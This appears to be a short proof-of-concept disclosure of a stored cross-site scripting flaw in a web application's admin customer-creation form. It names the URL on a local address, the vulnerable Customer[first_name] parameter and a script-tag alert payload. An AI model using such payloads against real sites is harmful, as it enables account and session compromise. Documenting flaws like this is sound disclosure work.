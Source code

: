 ## Vulnerability Assessment
- - - XSS-Stored Allow 48 characters

## Url
`http://192.168.1.3/setup-master/admin/customers/create`

## Payload 
`<script>alert("nu11secur1ty_is_here");</script>`

## Vulnerable parameter
`Customer[first_name]`
